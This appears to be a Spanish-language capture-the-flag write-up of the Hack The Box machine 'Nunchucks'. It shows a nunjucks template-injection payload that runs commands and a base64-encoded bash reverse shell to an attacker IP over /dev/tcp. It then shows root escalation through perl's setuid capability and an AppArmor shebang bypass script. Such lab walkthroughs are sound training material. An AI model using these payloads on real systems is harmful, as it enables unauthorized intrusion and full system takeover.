 10.10.11.122 - Nunchucks

![Nunchucks](https://user-images.githubusercontent.com/96772264/201742691-c8bcd404-0abd-409d-a2d9-964e9cb6b79d.png)

------------------------
# Part 1: Reconocimiento del sistema

Puertos abiertos: 22(ssh), 80(http), 443(https). Nmap nos dice que hay una web en el puerto 80, nos redirige a nunchucks.htb (nginx/1.18.0)
Metemos ese nombre del dominio en /etc/hosts.  
Analizando por openssl no damos con subdominios ```openssl s_client -connect nunchucks.htb:443;```  

La web parece una plataforma de ecommerce:
![nunchuks1](https://user-images.githubusercontent.com/96772264/201742804-b700e108-a55d-4612-ad10-8ee194f80a27.PNG)

La unica ruta que encontramos es /signup, pero no nos deja:  
![nunchuks2](https://user-images.githubusercontent.com/96772264/201742853-d2a26a2d-57ce-4811-ba87-ebbeb8386bc2.PNG)

Fuzzing de subdominios:
```console
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hc=301 --hw=2271 \
-H "Host: FUZZ.nunchucks.htb" -u https://nunchucks.htb -t 100
000000081:   200        101 L    259 W      4028 Ch     "store"
└─$ whatweb https://store.nunchucks.htb
Bootstrap, Cookies[_csrf], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], JQuery[1.10.2], X-Powered-By[Express]
```

------------------------
# Part 2: Web vulnerable a STTI (nunjucks)

Si ponemos este nuevo dominio en el /etc/hosts, podremos acceder a la web de la tienda, que también está en pañales.
![nunchuks3](https://user-images.githubusercontent.com/96772264/201742958-098c7d88-523d-4b31-858d-ab8371284de3.PNG)

Solo hay un campo para hacer un /POST a store.nunchucks.htb/api/submit con una dirección de correo.  Pese a que no tenemos nada de python, al reflejarse nuestro 
input podemos probar un STTI que resuelve.  

![nunchuks4](https://user-images.githubusercontent.com/96772264/201742973-9ed98043-3233-41fc-874e-fe90187cf88d.PNG)

```console
└─$ curl https://store.nunchucks.htb/api/submit -k -d 'email={{7*7}}'
{"response":"You will receive updates on the following email address: 49."}
```
En efecto, un STTI. Probando otro payload ```{{cycler.__init__.__globals__.os.popen('whoami').read()}}``` nos da error. Estamos ante express en vez de python
así que habria que buscar payloads de express.  

En [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) hay una seccion de SSTI, donde si bajamos podemos encontrar 
payloads para node.js (express), para distintas librerias, entre ellas destaca nunjucks.  

```console
└─$ curl https://store.nunchucks.htb/api/submit -k \
-d "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('whoami')\")()}}"
{"response":"You will receive updates on the following email address: undefined."}

└─$ echo bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1' | base64 -w0
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzQ0MyAwPiYxCg== 

└─$ curl https://store.nunchucks.htb/api/submit -k \
-d "email={{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzQ0MyAwPiYxCg== | base64 -d | bash')\")()}}"
```

------------------------
# Part 3: Apparmor y perl

Y tenemos consola. Si corremos nuestro script de enumeración:  
- Usuarios: root, david (nosotros)  
- Hay varios logs en /var/log  
- En /opt hay dos archivos interesantes -> /opt/backup.pl, /opt/web_backups  
- Capabilities -> /usr/bin/perl = cap_setuid+ep  
 
Hay una capability de perl, en gtfobins nos enseñan a usarla:  
```console
david@nunchucks:/opt$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
david@nunchucks:/opt$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
nada
```
¿Porqué no nos deja? En linux hay programas de seguridad como Selinux o apparmor. En este caso está el segundo ya que existe la ruta /etc/apparmor.d  

```console
david@nunchucks:~$ ls /etc/apparmor.d
abstractions  force-complain  lsb_release      sbin.dhclient  usr.bin.man   usr.sbin.ippusbxd  usr.sbin.rsyslogd
disable       local           nvidia_modprobe  tunables       usr.bin.perl  usr.sbin.mysqld    usr.sbin.tcpdump
```
El script /backup.pl utiliza lineas como use POSIX qw(setuid); y POSIX::setuid(0); para hacer ciertas tareas en contexto privilegiado (hacer una copia de 
todo /var/www). Si miramos el archivo **usr.bin.perl**

- Se activa para la capability en uso: ```capability setuid,```    
- Impedir permiso a ciertos archivos: ```deny /root/* rwx,```      
- Solo permitir ciertos comandos: ```/usr/bin/whoami mrix,```  

Buscando en google ```apparmor perl script``` di con [esto](https://bugs.launchpad.net/apparmor/+bug/1911431) 
Hay que crear un script en perl con el codigo de gtfobins que usarmos antes pero que nos daba permiso denegado:  
```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh
```
```console
david@nunchucks:~$ chmod +x ./exploit.pl
david@nunchucks:~$ ./exploit.pl
# whoami
root
```
¿Y por que ahora si? La respuesta está en el sehabang (#!/usr/bin/perl). Al cambiar los permisos con **chmod+x**  (hacerlo un ejecutable) se puede correr 
sin especificar el interprete (perl) porque eso ya lo hace el sheabang. El script del backup que encontramos se ejecuta privilegiadamente justo por esto.

Según el articulo hay una función del kernel de linux (bprm_creds_for_exec) que es la que ejecuta el script, está antes que la que cambia el sheabang por
```perl ./exploit.pl``` (search_binary_handler). 



